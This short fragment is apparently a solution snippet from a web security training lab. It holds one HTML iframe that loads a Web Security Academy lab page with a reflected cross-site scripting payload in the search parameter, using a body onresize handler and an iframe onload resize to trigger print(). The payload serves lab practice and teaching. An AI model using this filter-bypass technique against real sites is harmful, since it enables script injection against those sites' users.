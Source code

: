 <iframe src="https://0a6e00ae04c1778d80d43f03004f008f.web-security-academy.net/?search=<body%20onresize='print()'>" onload="this.style.width='100px'"></iframe> 